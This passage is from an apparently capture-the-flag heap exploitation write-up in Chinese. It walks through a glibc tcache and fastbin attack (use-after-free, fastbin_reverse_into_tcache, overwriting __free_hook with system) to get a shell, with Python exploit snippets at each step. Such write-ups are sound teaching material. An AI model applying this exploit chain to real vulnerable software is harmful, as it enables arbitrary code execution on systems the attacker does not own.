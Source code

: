 如果能夠在 tcache struct 對應到的 tcache `next` 寫值，並且控制某 fastbin 最後一塊 chunk 的 fd (在此稱作 `chk`)，則能夠在 trigger 到 `fastbin_reverse_into_tcache` 的時候，把 next 內的東西寫入 `chk` bk 指向的位置，因為 tcache 會把 `chk` fd 指到的位置當作另一個 fastbin chunk，又因為是 reverse 的順序，所以最一開始的 next 會被寫到最後所謂的另一個 fastbin chunk，也就是我們控制 `chk` fd 所指到的位置

將 `ptr[1]` size 改成 `0x110`，在 free 掉，而在一開始，我有刻意去填滿 `0x110` 的 tcache，就是避免此時 free 掉會直接進去 fastbin，此時會進 `0x110` fastbin
```python
##### write allocate 0x110 into fastbin
# fchk2 = b'Q'*0x88 + p64(0) + p64(0x110) + p64(0x100) + p64(0xAAAABBBBCCCCDDDD)
edit(10, fchk2)
edit(1, p64(0x110)*0x12)
delete(1)
```

此時我們的目標是透過 fastbin attack 拿到 `heap + 0x1b` 的位置，改寫 `0x110` 對應到的 tcache next，將其改成 `system` 的位置<br>
而這邊有一個要注意的地方，原本分配用來拿 tcache struct 的 size (在這邊是 `add(0xb0, 'A')`，所以是 `0xc0`) 需要大於要蓋寫對應 tcache next 的 size (在這邊是 `0x110`)，這樣才能同時把 chunk counts 蓋成 0，因而能 trigger `fastbin_reverse_into_tcache`，不然原本 tcache 是滿的，是沒辦法做攻擊的
[](childnote/1.png)
```python
##### UAF
edit(10, b'Q'*0x88 + p64(0) + p64(0x100) + p64(0)*2)
delete(1)
edit(10, b'Q'*0x88 + p64(0) + p64(0x100) + p64(heap + 0x1b))
add(0xf0, p64(0x100)*0x1f) # 13
add(0xf0, b'\x00'*0xd5 + p64(system_addr)) # 14
```

先利用 `ptr[10]` 改掉 `ptr[1]` 的 size，讓其能寫更多，在 spray `0x110` size，避免出錯，最後將在 fastbin 的 `ptr[1]` 指到的 chunk 的 bk 改成 `__free_hook - 0x10`，之後在要一塊 `0x100` 的 chunk，就能 trigger `fastbin_reverse_into_tcache`，並把 `system` 寫到 `__free_hook` 中
```python
##### write free_hook
fchk2 = b'Q'*0x88 + p64(0) + p64(0x200) + p64(0x100) + p64(0xAAAABBBBCCCCDDDD)
edit(10, fchk)
edit(1, p64(0x110)*0x40)
edit(10, b'Q'*0x88 + p64(0) + p64(0x110) + p64(free_hook - 0x10))
add(0x100, 'Q') # 15
```

之後直接 `free("/bin/sh")`，會呼叫 `system("/bin/sh")`，因而 get shell
```python
##### get shell
edit(10, b'Q'*0x88 + p64(0) + p64(0x100) + b'/bin/sh\x00')
delete(1)
```